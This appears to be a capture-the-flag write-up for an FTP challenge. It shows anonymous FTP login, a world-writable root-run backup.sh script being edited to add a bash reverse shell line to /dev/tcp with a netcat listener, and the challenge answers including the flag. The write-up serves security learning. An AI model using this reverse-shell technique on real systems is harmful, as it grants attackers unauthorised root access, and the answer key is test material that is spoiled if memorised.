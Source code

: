 # Day 9 challenge
## Anyone can be a santa

This challenge is about FTP and its improper settings.

First we deploy the machine and connect the macihne through ftp as it open on the machine.

We can connect to ftp using

`ftp <IPaddr>`

We can login as anonymous user which has no password.

Now after authnicating with the machine using ftpp have a look at the folder and files that are available on ftp for anonymous user.

We can see that we can access public folder which has santa's movie list and a .sh file

Now lets look at the file permissions.
 
 `ls -al`

We can now see that the backup.sh file is  running on the machine with root privilege and can be written by anyone.

Let download the file by using the command `get`.

`get backup.sh`
`get movielist.txt`

Now lets have a look at the backup.sh file.

`cat backup.sh`

`!/bin/bash
# Created by ElfMcEager to backup all of Santa's goodies!
# Create backups to include date DD/MM/YYYY
filename="backup_`date +%d`_`date +%m`_`date +%Y`.tar.gz";
# Backup FTP folder and store in elfmceager's home directory
tar -zcvf /home/elfmceager/$filename /opt/ftp
# TO-DO: Automate transfer of backups to backup server
`

Now lets add our own part of the script that gets us the reverse tcp connection i.e reverse shell 

under '#To-Do:' add

`bash -i >& /dev/tcp/<IPaddr of your machine>/<Port to listen on> 0>&1`

Now save the backup.sh.

As the permission set on backup.sh was anyone rewrite it so before uploading our modified .sh file we need to set up netcat listner on specified port used in the script

`nc -lvp 4444`

Now we can upload the file using command `put`

`put backup.sh`

Now wait for a 5 seconds or so can see you got the reverse shell back.

Now have look at flag in /root/flag.txt

## Quesitons
 
 1. Name the directory on the FTP server that has data accessible by the "anonymous" user?
 	- Ans: Public

 2. What script gets executed within this directory?
 	- Ans: backup.sh

 3. What movie did Santa have on his Christmas shopping list?
 	- Ans: The Polar Express

 4. Output the contents of /root/flag.txt!
 	- Ans: THM{even_you_can_be_santa}